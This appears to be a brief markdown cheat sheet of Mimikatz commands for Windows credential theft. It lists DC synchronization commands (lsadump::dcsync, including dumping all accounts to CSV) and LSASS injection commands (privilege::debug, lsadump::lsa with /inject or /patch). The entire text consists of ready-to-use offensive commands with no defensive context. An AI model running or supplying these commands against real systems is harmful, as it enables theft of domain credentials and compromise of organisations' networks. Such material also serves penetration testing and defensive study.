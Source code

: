 # Mimikatz

## 01 - DC Synchronization

```
mimikatz # lsadump::dcsync /domain:<domain_name> [/user:<username>]

mimikatz # lsadump::dcsync /domain:<domain_name> [/user:<username>] /all /csv
```

## 02 - LSASS Injection

### 2.1 - Mimikatz

```
mimikatz # privilege::debug

mimikatz # lsadump::lsa [/inject | /patch]
```
